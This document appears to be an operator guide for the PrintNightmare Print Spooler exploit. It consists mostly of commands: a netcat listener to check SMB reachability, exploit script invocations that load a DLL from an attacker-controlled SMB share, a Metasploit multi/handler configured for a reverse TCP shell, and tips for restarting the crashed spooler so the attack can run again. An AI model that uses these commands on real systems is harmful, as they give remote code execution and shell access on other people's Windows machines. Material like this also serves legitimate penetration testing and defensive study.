 ## Check if system reaches out

By simply trying to connect to a nc instance we can verify that the system can reach our smb server.

Start nc on 445.

```bash
sudo nv -nlvp 445
```

Run MSRPRN_nobrute and try to connect to nc.

```bash
python3 MSRPRN_nobrute.py 'user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

## Exploit

Depending on the dll you use/actions you preform the the spooler services can crashes/hangs. From my experience in these cases you wont be able to run printnightmare a second time if you did not restart the spooler service before hand. A way around this might be to follow the Outflank advice to use printnightmare to load a DLL that starts a second thread/process with a new DLL that contains the actual RCE/w.e. payload.

### Setup a listener

#### Netcat

```bash
nc -nvlp 80
```

#### MSF Multi Handler

```bash
msfconsole -x "use exploit/multi/handler;\
set payload generic/shell_reverse_tcp;\
set LHOST 172.16.0.137;\
set LPORT 80;\
set ExitOnSession false;\
run -j"
```

### Run PrintNightmare

```bash
python3 [MSPAR|MSRPRN|MSRPRN_nobrute].py  'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

The Spooler services sometimes crashes/hangs and you wont be able to run printnightmare a second time if you don’t restart the spooler service. If you don’t spawn a new process in the DLL ensure that the first thing you do is restart the spooler service.

```powershell
net stop spooler && net start spooler
```
